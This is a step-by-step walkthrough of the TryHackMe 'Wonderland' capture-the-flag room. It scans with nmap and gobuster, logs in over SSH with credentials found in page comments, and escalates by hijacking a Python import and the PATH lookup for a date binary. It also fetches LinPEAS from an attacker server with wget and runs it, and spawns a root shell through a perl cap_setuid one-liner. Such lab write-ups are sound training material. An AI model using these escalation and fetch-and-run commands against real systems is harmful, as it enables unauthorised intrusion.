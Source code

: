 # [Wonderland](https://tryhackme.com/room/wonderland)

## Fall down the rabbit hole and enter wonderland.

# Capture the flags

## Enter Wonderland and capture the flags.

### Obtain the flag in user.txt

_Everything is upside down here._

1. Start with a port scan to identify running services on the target machine

```bash
nmap <TARGET_IP>
```

[SCREEN01]

2. Continue enumeration to discover `/r/a/b/b/i/t` directory

```bash
gobuster dir -u http://<TARGET_IP>/r/a/b/b/i/t -w /root/Tools/wordlists/dirbuster/directory-list-2.3-medium.txt
```

3. Examine the source code of `http://<TARGET_IP>/r/a/b/b/i/t/` page. Hidden in the HTML comments, you'll find SSH credentials
   - **Credentials found:** `alice:HowDothTheLittleCrocodileImproveHisShiningTail`

[SCREEN02]

4. Use the discovered credentials to establish SSH connection

```bash
ssh alice@<TARGET_IP>
# Password: HowDothTheLittleCrocodileImproveHisShiningTail
```

5. Check sudo privileges and examine files in Alice's home directory
   - The sudo output reveals that Alice can run `walrus_and_the_carpenter.py` as the rabbit user

```bash
sudo -l
cat walrus_and_the_carpenter.py
```

[SCREEN03]

6. Analyze the Python script to identify import statements. The script imports the `random` module, which we can hijack. This exploits Python's module search path to execute our malicious `random.py` instead of the legitimate module

```bash
echo 'import os; os.system("/bin/bash")' > random.py
sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
```

7. After gaining access as the rabbit user, explore the home directory.

```bash
whoami
ls -la /home/rabbit
```

8. Copy the `teaParty` binary for analysis

```bash
cp /home/rabbit/teaParty /tmp
```

9. Transfer the binary to your attacking machine for reverse engineering

```bash
scp alice@<TARGET_IP>:/tmp/teaParty .
```

10. Analyze the `teaParty` binary using Ghidra or similar tools. The analysis reveals:
    - The binary calls the `date` command without using absolute paths
    - This creates a PATH hijacking vulnerability

[SCREEN04]

11. Create a malicious `date` binary and manipulate the PATH environment variable. This exploits the binary's reliance on PATH resolution to execute our malicious `date` command

```bash
echo -e '#!/bin/bash\n/bin/bash' > date
chmod +x date
export PATH=/home/rabbit:$PATH
./teaParty
```

12. Download LinPEAS for comprehensive privilege escalation enumeration

```bash
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh > linpeas.sh
python -m SimpleHTTPServer
```

13. Transfer and execute LinPEAS on the target

```bash
cd /tmp
wget http://10.10.106.64:8000/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```

14. LinPEAS reveals that `/usr/bin/perl` has the `cap_setuid+ep` capability, allowing privilege escalation

```bash
/usr/bin/perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
```

15. Navigate to the root directory and retrieve the user flag

```bash
cat /root/user.txt
```

[SCREEN05]

---

### Escalate your privileges, what is the flag in root.txt?

1. The root flag is located in `/alice/root.txt`

```bash
cat /alice/root.txt
```

[SCREEN06]
